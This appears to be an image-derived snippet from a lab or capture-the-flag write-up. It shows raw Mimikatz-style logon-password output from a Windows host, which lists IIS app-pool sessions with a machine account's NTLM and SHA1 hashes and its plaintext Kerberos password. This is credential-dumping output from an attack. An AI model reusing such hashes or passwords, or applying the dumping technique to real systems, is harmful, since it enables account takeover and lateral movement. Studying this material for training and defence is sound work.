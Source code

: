 ```powershell

Authentication Id : 0 ; 209672 (00000000:00033308)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 3/11/2021 7:27:04 PM
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 167544 (00000000:00028e78)
Session           : Service from 0
User Name         : wordpress
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:25 PM
SID               : S-1-5-82-698136220-2753279940-1413493927-70316276-1736946139
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:12 PM
SID               : S-1-5-17
	msv :	
	tspkg :	
	wdigest :	
```